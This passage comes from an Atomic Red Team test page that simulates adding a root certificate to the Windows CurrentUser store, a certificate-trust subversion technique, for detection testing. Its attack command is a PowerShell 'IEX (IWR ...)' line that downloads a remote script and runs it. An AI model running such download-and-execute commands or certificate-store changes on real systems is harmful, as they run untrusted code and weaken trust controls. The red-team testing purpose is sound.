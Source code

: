 

#### Dependencies:  Run with `powershell`!
##### Description: Certificate must exist at specified location (#{pfx_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{pfx_path}) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
$cert = New-SelfSignedCertificate -DnsName atomicredteam.com -CertStoreLocation cert:\LocalMachine\My
Export-Certificate -Type CERT -Cert  Cert:\LocalMachine\My\$($cert.Thumbprint) -FilePath #{pfx_path}
Get-ChildItem Cert:\LocalMachine\My\$($cert.Thumbprint) | Remove-Item
```




<br/>
<br/>

## Atomic Test #7 - Add Root Certificate to CurrentUser Certificate Store
The following Atomic test simulates adding a generic non-malicious certificate to the CurrentUser certificate store. This behavior generates a registry modification that adds the cloned root CA certificate in the keys outlined in the blog.
Keys will look like - \SystemCertificates\CA\Certificates or \SystemCertificates\Root\Certificates
Reference: https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec

**Supported Platforms:** Windows


**auto_generated_guid:** ca20a3f1-42b5-4e21-ad3f-1049199ec2e0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (IWR 'https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1553.004/src/RemoteCertTrust.ps1' -UseBasicParsing)
```

#### Cleanup Commands:
```powershell
Get-ChildItem -Path Cert:\ -Recurse | Where-Object { $_.Thumbprint -eq '1F3D38F280635F275BE92B87CF83E40E40458400' } | remove-item
```





<br/>
